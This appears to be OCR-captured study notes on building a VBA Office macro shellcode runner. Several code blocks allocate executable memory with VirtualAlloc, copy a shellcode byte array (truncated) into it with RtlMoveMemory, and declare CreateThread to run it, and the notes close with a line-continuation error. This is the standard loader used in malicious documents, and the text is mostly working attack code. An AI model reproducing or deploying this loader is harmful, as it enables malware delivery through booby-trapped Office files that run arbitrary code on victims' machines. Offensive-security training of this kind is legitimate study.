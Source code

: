 ```vb
Dim buf As Variant
Dim addr As LongPtr
buf = Array(232, 130, 0, 0, 0, 96, 137...
addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```

for RTL movememory

```
VOID RtlMoveMemory(
 VOID UNALIGNED *Destination,
 VOID UNALIGNED *Source,
 SIZE_T Length
);
```

```vb
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As 
LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Dim counter As Long
Dim data As Long
For counter = LBound(buf) To UBound(buf)
 data = buf(counter)
 res = RtlMoveMemory(addr + counter, data, 1)
Next counter
```

next is createThread

```
HANDLE CreateThread(
 LPSECURITY_ATTRIBUTES lpThreadAttributes,
 SIZE_T dwStackSize,
 LPTHREAD_START_ROUTINE lpStartAddress,
 LPVOID lpParameter,
 DWORD dwCreationFlags,
 LPDWORD lpThreadId
);
```

Vba implementation

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes 
As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As 
LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
```

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes 
As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As 
LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
```
full implementation giiven in `shellcode_runner.macro`

getting error of too many line continuations
